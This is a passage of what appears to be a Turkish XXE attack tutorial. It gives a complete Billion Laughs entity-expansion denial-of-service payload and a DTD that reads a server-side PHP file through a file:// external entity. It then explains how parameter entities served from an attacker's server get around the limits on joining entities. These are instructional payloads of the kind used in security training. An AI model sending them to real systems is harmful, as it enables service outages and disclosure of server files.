 ### 11- DoS Saldırısı ile Entity Genişletme (Billion Laughs)

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

Bu payload, `a0` varlığını DOS olarak tanımlar, `a1`'de birden çok kez referans verir, `a2`'de `a1`'e referans verir ve kendi kendine referans döngüleri nedeniyle back-end sunucunun belleği tükenene kadar bu şekilde devam eder. Ancak, bu saldırı artık modern web sunucularında (örneğin Apache) çalışmamaktadır, çünkü bunlar entity `self-reference`'a karşı koruma sağlamaktadır. 

### 12- CDATA ve Parametre Entity’leri ile Dosya Okuma

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Bundan sonra, `&joined;` entity'sine başvurursak, escaped verilerimizi içermelidir. Ancak, XML internal ve external entity'leri birleştirmeyi engellediği için bu işe yaramayacaktır, bu yüzden bunu yapmak için daha iyi bir yol bulmamız gerekecektir.

Bu kısıtlamayı aşmak için, `%` karakteriyle başlayan ve yalnızca DTD içinde kullanılabilen özel bir entity türü olan XML Parametre Entity'lerini kullanabiliriz. Parametre entity'leri hakkında benzersiz olan şey, onlara bir external source'dan (örn. kendi sunucumuz) referans verirsek, hepsinin external olarak kabul edileceği ve aşağıdaki gibi birleştirilebileceğidir:

```xml
<!ENTITY joined "%begin;%file;%end;">
```
